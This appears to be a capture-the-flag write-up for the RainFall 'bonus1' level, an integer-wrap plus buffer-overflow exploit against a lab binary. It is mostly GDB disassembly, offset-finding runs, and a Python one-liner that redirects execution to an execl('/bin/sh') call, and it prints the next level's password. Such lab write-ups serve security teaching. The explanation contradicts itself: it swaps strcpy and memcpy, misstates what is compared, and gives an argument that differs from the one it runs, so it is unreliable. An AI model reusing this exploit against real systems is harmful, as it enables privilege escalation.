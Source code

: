 # Bonus1

## Exploring the binary
```shell
bonus1@RainFall:~$ ./bonus1
Segmentation fault (core dumped)
bonus1@RainFall:~$ ./bonus1 phantom
bonus1@RainFall:~$
```
The binary accepts argument values and crashes when called with no arguments. Let's explore the functions:

## GDB analysis
```shell
Dump of assembler code for function main:
   0x08048424 <+0>:	push   %ebp
   0x08048425 <+1>:	mov    %esp,%ebp
   0x08048427 <+3>:	and    $0xfffffff0,%esp
   0x0804842a <+6>:	sub    $0x40,%esp
   0x0804842d <+9>:	mov    0xc(%ebp),%eax
   0x08048430 <+12>:	add    $0x4,%eax
   0x08048433 <+15>:	mov    (%eax),%eax
   0x08048435 <+17>:	mov    %eax,(%esp)
   0x08048438 <+20>:	call   0x8048360 <atoi@plt>
   0x0804843d <+25>:	mov    %eax,0x3c(%esp)
   0x08048441 <+29>:	cmpl   $0x9,0x3c(%esp)
   0x08048446 <+34>:	jle    0x804844f <main+43>
   0x08048448 <+36>:	mov    $0x1,%eax
   0x0804844d <+41>:	jmp    0x80484a3 <main+127>
   0x0804844f <+43>:	mov    0x3c(%esp),%eax
   0x08048453 <+47>:	lea    0x0(,%eax,4),%ecx
   0x0804845a <+54>:	mov    0xc(%ebp),%eax
   0x0804845d <+57>:	add    $0x8,%eax
   0x08048460 <+60>:	mov    (%eax),%eax
   0x08048462 <+62>:	mov    %eax,%edx
   0x08048464 <+64>:	lea    0x14(%esp),%eax
   0x08048468 <+68>:	mov    %ecx,0x8(%esp)
   0x0804846c <+72>:	mov    %edx,0x4(%esp)
   0x08048470 <+76>:	mov    %eax,(%esp)
   0x08048473 <+79>:	call   0x8048320 <memcpy@plt>
   0x08048478 <+84>:	cmpl   $0x574f4c46,0x3c(%esp)
   0x08048480 <+92>:	jne    0x804849e <main+122>
   0x08048482 <+94>:	movl   $0x0,0x8(%esp)
   0x0804848a <+102>:	movl   $0x8048580,0x4(%esp)
   0x08048492 <+110>:	movl   $0x8048583,(%esp)
   0x08048499 <+117>:	call   0x8048350 <execl@plt>
   0x0804849e <+122>:	mov    $0x0,%eax
   0x080484a3 <+127>:	leave
   0x080484a4 <+128>:	ret
End of assembler dump.
```
We observe that <code>atoi()</code> is invoked on <code>av[1]</code> to convert it into an integer. The resultant value is then stored in memory, offset from the stack pointer, and compared against 9 using <code>jle</code>. Should the number exceed 9, <code>eax</code> is assigned the value 1, triggering a jump to the exit sequence. Otherwise, the <code>atoi()</code> result is multiplied by 4 and later in the function compared to <code>0x574f4c46</code> (1464814662). Another call we observe is to the <code>strcpy()</code> function, where a string from <code>av[2]</code> is combined with the multiplied number.

## buffer overflow
Another call we observe is to the <code>memcpy()</code> function, where a string from <code>av[2]</code> is combined with the multiplied number. Since the copying function doesn't inherently perform boundary checks, we decide that a <code>buffer overflow</code> attack is our way forward. We can determine the offset value as before, but we need to figure out how to significantly increase the value of the multiplied number, since the biggest value we can achieve is 36.

The maximum value for an unsigned 32-bit integer is 4294967295. Dividing this number by 4 gives us 1073741824. This may still be too large, so we decide to decrease the final number by 280. By subtracting 70 from the digit and passing -1073741754 as the first argument, we are able to test for the offset.

``` shell
(gdb) run -1073741824 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A'
Starting program: /home/user/bonus1/bonus1 -1073741824 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A'
[Inferior 1 (process 5146) exited normally]
(gdb) run -1073741799 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A'
Starting program: /home/user/bonus1/bonus1 -1073741799 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A'

Program received signal SIGSEGV, Segmentation fault.
0x39624138 in ?? ()
```
The final step is to invoke <code>/bin/bash</code>. We have already observed that the <code>execl()</code> function is called within the <code>main()</code> function, which piqued our interest. Just before this call, two immediate values are pushed onto the stack (<code>%esp</code>), which will ultimately initiate the shell for us:
``` shell
(gdb) x/s 0x8048580
0x8048580:	 "sh"
(gdb) x/s 0x8048583
0x8048583:	 "/bin/sh"
```
Due to this, our exploit jumps to the address <code>0x08048482</code> to continue executing the desired sequence.

## Exploit
``` shell
bonus1@RainFall:~$ ./bonus1 -1073741799 $(python -c 'print "\x90" * 56 + "\x08\x04\x84\x82"[::-1]')
$ whoami
bonus2
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
